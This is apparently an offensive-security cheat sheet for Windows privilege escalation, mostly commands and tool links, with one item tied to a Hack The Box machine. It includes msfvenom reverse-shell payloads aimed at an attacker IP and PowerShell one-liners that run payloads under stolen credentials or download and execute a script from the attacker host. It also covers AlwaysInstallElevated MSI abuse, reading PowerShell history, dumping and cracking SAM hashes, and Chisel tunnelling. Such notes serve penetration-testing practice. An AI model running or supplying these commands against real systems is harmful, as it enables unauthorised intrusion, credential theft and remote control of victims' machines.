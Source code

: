 Recon

```
https://github.com/AonCyberLabs/Windows-Exploit-Suggester
```

```
https://github.com/itm4n/PrivescCheck
```

Forwarding service

[TCP/UDP tunnel over HTTP](https://github.com/jpillora/chisel)

PowerShell history file

```cmd
REM location
cd C:\Users\<User Account>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine
REM file
type C:\Users\<User Account>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

[LAN Manager authentication level](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-lan-manager-authentication-level)

- [NTLMv1 attack](https://github.com/SpiderLabs/Responder)

Check unusual programs

```
C:\Program Files
C:\Program Files (x86)
```

MSFVenom Reverse Shell Payload

```
msfvenom -p windows/shell_reverse_tcp lhost=<attacker ip> lport=<attacker listening port> -f exe > rev.exe
```

:label: Running PowerShell as another user

reverse shell with credential

```cmd
REM create payload
msfvenom -p windows/shell_reverse_tcp lhost=<attacker ip> lport=<attacker listening port> -f exe > rev.exe
REM change user, password and payload
powershell -c "$password = ConvertTo-SecureString '<password>' -AsPlainText -Force; $creds = New-Object System.Management.Automation.PSCredential('<user>', $password);Start-Process -FilePath "<payload>" -Credential $creds"
```

specify a computer name in the AD environment

prepare PowerShell reverse shell script file ```XXX.ps1```

execute command in the target host

```cmd
powershell -c "$pass = ConvertTo-SecureString '<password>' -AsPlainText -Force;$cred = New-Object System.Management.Automation.PSCredential('<domain>\<username>', $pass);Invoke-Command -Computer <name> -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://<attacker ip>/<XXX.ps1>') } -Credential $cred"
```

File owner access permission 

```cmd
REM check owner
dir /q /a
REM grant full access
icacls <file> /grant <user>:F
```

AlwaysInstallElevated

```shell
# AlwaysInstallElevated set to 1 in HKLM!
# AlwaysInstallElevated set to 1 in HKCU! 
# using msfvenom to create payload
msfvenom -p windows/x64/shell/reverse_tcp LHOST=<attacker ip> LPORT=<attacker port> -f msi -o reverse.msi
```

execute the command on the target

```powershell
# <payload> = reverse.msi
msiexec /quiet /qn /i <payload>
```

SAM (SYSTEM account) (HTB:Omni)

```cmd
reg save HKLM\SYSTEM C:\SYSTEM
reg save HKLM\SAM C:\SAM
```

```shell
python3 secretsdump.py -system /tmp/SYSTEM -sam /tmp/SAM LOCAL
hashcat -m 1000 ./hash ~/Documents/rockyou.txt
```

[Chisel](https://github.com/jpillora/chisel) (port forwarding)

```shell
# client
chmod +x chisel
./chisel server --reverse --port <attacker port>
# Windows target
.\chisel.exe client <attacker ip>:<attacker port> R:<local-interface>:<local-port>:<remote-host>:<remote-port>/<protocol>
# attacker ip = 10.10.10.10
./chisel server --reverse --port 10000
.\chisel.exe client 10.10.10.10:10000 R:4444:localhost:3306 R:5555:localhost:3307
# attacker 
localhost 4444 => remote 3306
localhost 5555 => remote 3307
```

Tools

[Chisel](https://github.com/jpillora/chisel): Pivoting<br>
[ysoserial.net](https://github.com/pwntester/ysoserial.net): Deserialization payload generator for a variety of .NET formatters

Exploits

- CVE-2021-1732
- MS10-059